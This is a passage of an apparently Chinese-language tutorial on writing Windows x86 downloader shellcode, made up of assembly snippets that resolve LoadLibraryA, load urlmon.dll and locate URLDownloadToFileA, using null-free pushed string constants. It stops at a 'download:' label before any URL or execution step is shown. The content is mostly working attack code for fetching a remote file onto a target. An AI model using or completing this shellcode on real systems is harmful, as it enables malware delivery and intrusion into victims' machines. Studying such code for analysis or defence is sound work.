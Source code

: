 ```
mov edi,ecx ;kernel32.dll
```
- 使用GetProcAddress确定LoadLibrary函数地址
```
;------------------------------------
;finding address of LoadLibraryA()
xor eax,eax
push eax
push 0x41797261
push 0x7262694c
push 0x64616f4c

push esp
push ecx

call edx

;------------------------
add esp,12

```
- 使用`LoadLibrary`加载加载urlmon.dll
```
;-----------------------------

;LoadLibraryA("urlmon.dll")
xor ecx,ecx

push 0x41416c6c
mov [esp+2],byte cl
push 0x642e6e6f
push 0x6d6c7275

push esp
call eax

;-----------------------

add esp,12
```
- 获得`URLDownloadToFileA`入口
```
;-----------------------
;finding address of URLDownloadToFileA()
xor ecx,ecx
push 0x42424165
mov [esp+2],byte cl
push 0x6c69466f
push 0x5464616f
push 0x6c6e776f
push 0x444c5255

push esp
push eax
call esi

;------------------------
add esp,20
push eax 
```
- 开始下载文件
```
;URLDownloadToFileA(NULL,url,save as,0,NULL)
download:
```